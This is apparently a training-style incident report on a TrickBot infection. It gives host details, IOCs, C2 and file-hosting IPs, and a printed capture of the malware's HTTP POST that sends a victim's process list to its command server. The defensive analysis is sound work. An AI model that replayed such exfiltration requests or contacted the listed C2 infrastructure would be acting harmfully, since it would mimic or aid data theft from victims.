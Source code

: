 
## **Executive Summary**:


On 2021-08-19 22:40:36, a user called monica.steele with a hostname DESKTOP-M1TFHB6, was infected with a malware called TrickBot.



## **Details**:

- IP Address : 10.8.19.101
- Mac Address : 00:08:02:1c:47:ae
- HostName : DESKTOP-M1TFHB6
- UserName : monica.steele
- Time of infection : 2021-08-19 22:40:36


## **Indicators of Compromise (IOCs)**:

- Malware-Name : ooiwy.pdf
- MD5 Hash : 4e4ae70b6346eae111e31716dc76bc23
- File Hosting server IP : 185[.]244[.]41[.]29
- C2 : 103[.]148[.]41[.]195



## Analysis

### Stage-1

On Examin the http traffic, we found that the user monica.steele download's a file that look's like a pdf  file : ooiwy.pdf . on downloading the file and examin it, it shows that the file is EXE file executable. After we uploaded the file to virustotal and anyrun, it shows the file behavior as TrickBot malware.


### Stage-2


On continuing of the analysis, it shows on the http packet that the user is actually executed the malware and after that. The malware Gatherd the user IP public address throw "api.ipify.org" then it send's the data back to Cowboy server which is a simple light python http server with the IP of "103[.]148[.]41[.]195", however, the malware gatherd the user data like : proc list, system info( host-name, system-Name etc...) then send back the data to cowboy server with a post requset and the victim hostname as a url and an attachment of the system information.(The packet could be found down below.). However, The malware is targting Active Directory domain's.


---------------------------------------------

POST /rob124/DESKTOP-M1TFHB6_W10019043.0CB9C3AE3FA9B1267DFC20141CDE9D84/90/ HTTP/1.1

Connection: Keep-Alive

Content-Type: multipart/form-data; boundary=------Boundary0005648D

User-Agent: Ghost

Content-Length: 5311

Host: 103.148.41.195:443

  

--------Boundary0005648D

Content-Disposition: form-data; name="proclist"

  

***TASK LIST***

  

[System Process]

System

Registry

smss.exe

csrss.exe

wininit.exe

csrss.exe

winlogon.exe

services.exe

lsass.exe

svchost.exe

fontdrvhost.exe

fontdrvhost.exe

<--SNIP-->

 

--------Boundary0005648D--

  

HTTP/1.1 200 OK

server: Cowboy

date: Thu, 19 Aug 2021 19:45:38 GMT

content-length: 3

Content-Type: text/plain

  

/1/

-----------------------------------------------------------------------------

## reference

- https://www.malware-traffic-analysis.net/2021/08/19/index.html
